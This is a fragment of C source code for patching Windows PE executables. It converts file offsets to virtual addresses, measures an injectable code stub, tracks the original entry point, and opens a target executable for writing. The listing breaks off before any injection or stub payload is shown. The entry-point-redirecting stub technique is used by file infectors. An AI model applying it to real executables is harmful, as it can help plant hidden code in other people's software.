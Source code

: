 ```c
// By Napalm
DWORD FileToVA(DWORD dwFileAddr, PIMAGE_NT_HEADERS pNtHeaders)
{
    PIMAGE_SECTION_HEADER lpSecHdr = (PIMAGE_SECTION_HEADER)((DWORD)pNtHeaders + sizeof(IMAGE_NT_HEADERS));
    for(WORD wSections = 0; wSections < pNtHeaders->FileHeader.NumberOfSections; wSections++){
        if(dwFileAddr >= lpSecHdr->PointerToRawData){
            if(dwFileAddr < (lpSecHdr->PointerToRawData + lpSecHdr->SizeOfRawData)){
                dwFileAddr -= lpSecHdr->PointerToRawData;
                dwFileAddr += (pNtHeaders->OptionalHeader.ImageBase + lpSecHdr->VirtualAddress);
                return dwFileAddr; 
            }
        }
        
        lpSecHdr++;
    }
     
    return NULL;
}
 
int main(int argc, char* argv[]) 
{    
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;
    PIMAGE_SECTION_HEADER pSection, pSectionHeader;
    HANDLE hFile, hFileMap;
    HMODULE hUser32;
    LPBYTE hMap;
 
    int i = 0, charcounter = 0;
    DWORD oepRva = 0, oep = 0, fsize = 0, writeOffset = 0, oepOffset = 0, callOffset = 0;
    unsigned char *stub;
     
    // вычисляем размер кода/стаба
    DWORD start  = (DWORD)StubStart;
    DWORD end    = (DWORD)StubEnd;
    DWORD stubLength = (end - start);
     
    if(argc != 2){
        printf("Usage: %s [file]\n", argv[0]);
        return 0;
    }
     
    // мапим файл
    hFile = CreateFile(argv[1], GENERIC_WRITE | GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, 
                        NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE){
        printf("[-] Cannot open %s\n", argv[1]);
        return 0;
    }
     
    fsize = GetFileSize(hFile, 0);
    if(!fsize){
        printf("[-] Could not get files size\n");
        CloseHandle(hFile);
        return 0;
    }
     
    hFileMap = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, fsize, NULL);
    if(!hFileMap){
        printf("[-] CreateFileMapping failed\n");
        CloseHandle(hFile);
        return 0;
```